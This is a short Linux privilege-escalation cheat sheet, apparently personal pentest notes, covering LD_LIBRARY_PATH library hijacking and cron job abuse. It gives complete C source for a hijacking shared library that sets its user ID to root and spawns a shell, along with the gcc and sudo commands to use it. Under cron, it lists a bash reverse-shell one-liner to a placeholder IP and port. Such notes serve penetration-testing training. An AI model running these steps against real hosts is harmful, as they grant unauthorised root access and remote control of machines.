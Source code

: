 ### LD_LIBRARY_PATH
The LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are searched for first. The ldd command can be used to print the shared libraries used by a program: ```ldd /usr/sbin/apache2``` By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.

#### Run ldd against program file
```
ldd /usr/sbin/apache2\
```

#### Create a file (library_path.c) with the following contents:
```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

#### Compile library_path.c into libcrypt.so.1:
```
gcc -o libcrypt.so.1 -shared -fPIC library_path.c
```

#### Run apache2 using sudo, while setting the LD_LIBRARY_PATH environment variable to the current path (where we compiled library_path.c):
```
sudo LD_LIBRARY_PATH=. apache2
```

## Cronjobs
Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron jobs run with the security level of the user who owns them. By default, cron jobs are run using the /bin/sh shell, with limited environment variables. Cron table files (crontabs) store the configuration for cron jobs. User crontabs are usually located in ```/var/spool/cron/``` or ```/var/spool/cron/crontabs/``` The system-wide crontab is located at ```/etc/crontab```.

#### Overwritable files
- Different ways to exploit
  - bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  - see beginnen of linux privesc for more ways
  
### Path environment variable
The crontab PATH environment variable is by default set to ```/usr/bin:/bin``` The PATH variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.
